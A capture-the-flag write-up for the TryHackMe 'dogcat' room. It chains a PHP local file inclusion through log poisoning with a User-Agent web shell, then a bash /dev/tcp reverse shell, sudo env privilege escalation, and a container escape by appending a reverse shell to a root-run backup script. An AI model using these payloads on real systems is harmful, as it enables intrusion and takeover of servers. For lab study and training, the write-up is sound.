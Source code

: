 # dogcat
I made a website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.

---

I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats!\
This machine may take a few minutes to fully start up.

[Link](https://tryhackme.com/room/dogcat) to the room

---

Let's start with a version and script scan against the target machine
```
$ sudo nmap -sV -sC <machine_ip> -Pn -n --disable-arp-ping

<...snip...>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: dogcat
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/009bc8a6-b486-4d12-9bd3-484bdc1a8172)

The web app is about images of cats and dogs, no surprise. Let's fuzz for hidden content.
```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://<machine_ip>/FUZZ"

<...snip...>
cats                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 160ms]
dogs                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 99ms]
```

We assume that these folders contain the content of the web app (images of cats and dogs).
But we don't have permission to access them.

Let's try making use of the first flag's hint: *There's more to *view* than just cats and dogs...*.\
Notice that view is the name of the query argument when calling the api for a random cat/dog image.
We can try and fuzz to discover more values that are accepted by that argument:
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://<machine_ip>/?view=FUZZ" -fs 455

<...snip...>
category                [Status: 200, Size: 759, Words: 106, Lines: 24, Duration: 39ms]
<...snip...>
```

The command returns many entries. Note that `-fs 455` is used to exclude entries that return the standard response of "Sorry, only dogs or cats are allowed".

Navigating to `http://<machine_ip>/?view=catalog`, we get the following:
![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/70e44b57-bf4b-45cd-a15e-889d8d9d2e49)

Alright, now we know that the value of `view` is attached to ".php" extension and then passed to the `include` function.\
Since this is the case, we can use a php filter to disclose the source code of php files in the server. But first, let's see what php files do we have there:
```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt:FUZZ -u "http://<machine_ip>/FUZZ" -e .php

<...snip...>
flag.php                [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 43ms]
<...snip...>
```

Interestingly, we found a flag file. Now we can use the read filter to get its content encoded in base64.\
When testing the payload, I was getting the "Sorry, only dogs or cats are allowed" error, so I tried many assumptions on how the app verifies these conditions.
One of them, which later succeeded, is that the app checks if the value of the path contains "cat" or "dog".\
Hence, to get the flag, we pass the value `http://<machine_ip>/?view=php://filter/read=convert.base64-encode/resource=cats/../flag`. We used "cats" because this is an existing folder on the server, and from which we know the relative location of "flag.php".

We decode the base64 string and get our first flag.

Having access to php files on the server, we need to figure out how to get more access.\
Let's get the index file (same directory as flag.php) and see how the app actually works.
```PHP
<...snip...>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
<...snip...>
```
First, we now validate how the app decides when a value of *view* is valid. Second, the URL argument *ext* is used to specify the extension of the file to include, and thus, we can now include whatever file (according to permissions) on the server.

One common method to exploit LFI vulnerabilities is log poisoning. For this, we poison our user-agent to achieve RCE when we include the log file.\

- Log file location: `/var/log/apache2/access.log`
- User Agent: `<h1><?php system($_GET['cmd']); ?></h1>`
- Result when visiting `http://<machine_ip>/?view=cats/../../../../var/log/apache2/access.log&ext=&cmd=id`

![Screenshot_2023-12-08_20_29_42](https://github.com/elomarii/CTF_4_DAY/assets/106914699/62233aba-1ee3-4977-9435-09672e19054a)


Now that we can execute commands on the target machine, let's first get a reverse shell.\
We can use Burpsuite to manipulate the HTTP request, the crafted request I used is the following, where the bash command used is `bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'`. Don't forget to start a listener on your machine before sending the request.
```http
GET /?view=cats/../../../../var/log/apache2/access.log&ext=&cmd=bash+-c+'exec+bash+-i+%26>/dev/tcp/<rhost>/<rport>+<%261' HTTP/1.1
Host: <machine_ip>
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: nothing
Connection: close
Cache-Control: max-age=0
```

We find the second flag on the parent folder where the app lives (execute command `ls ..`).

For our next flag, we can try and see if `www-data` (our user) can execute any commands as root with no password. And bang, yes we can:
```
www-data@e43f08c3313d:/var/www/html$ sudo -l

Matching Defaults entries for www-data on e43f08c3313d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on e43f08c3313d:
    (root) NOPASSWD: /usr/bin/env
```

We can use `env` to execute commands as root. As a consequence, we enumerate the content of `/root` and find the third flag.
```
www-data@e43f08c3313d:/var/www/html$ sudo env cat /root/flag3.txt
```

As for the last flag, and with respect to the room description, we need to beak out of the docker container running the web app.\
To continue working as root we execute the following command
```
www-data@e43f08c3313d:/var/www/html$ sudo env bash -i
```

One of the ways to break out from the container is to inspect drives owned by the user (the one who runs the container) on the host system.
```
root@e43f08c3313d:/var/www/html# df -h

Filesystem      Size  Used Avail Use% Mounted on
overlay         9.8G  5.3G  4.0G  57% /
tmpfs            64M     0   64M   0% /dev
tmpfs           240M     0  240M   0% /sys/fs/cgroup
shm              64M     0   64M   0% /dev/shm
/dev/xvda2      9.8G  5.3G  4.0G  57% /opt/backups
tmpfs           240M     0  240M   0% /proc/acpi
tmpfs           240M     0  240M   0% /proc/scsi
tmpfs           240M     0  240M   0% /sys/firmware
```

`/opt/backup` is mounted on `/dev/xvda2` in the host filesystem and occupies most of the space of the container. Checking its content, we find a script that is run regularly by root on the host machine to back up the container. Because we have permissions to write to that file, we can send a reverse shell back to our machine:

```
root@e43f08c3313d:/var/www/html# ls -l /opt/backups
ls -l /opt/backups
total 2884
-rwxr--r-- 1 root root     123 Mar  1 16:33 backup.sh
-rw-r--r-- 1 root root 2949120 Mar  1 16:40 backup.tar

root@e43f08c3313d:/var/www/html# echo "bash -c 'exec bash -i &>/dev/tcp/<rhost>/<rport> <&1'" >> /opt/backups/backup.sh
```
```
kali@kali$ nc -lvnp <rport>

listening on [any] <rport> ...
connect to <rhost> from (UNKNOWN) <machine_ip> 57198
bash: cannot set terminal process group (3365): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# ls
ls
container
flag4.txt
root@dogcat:~# cat flag4.txt
```



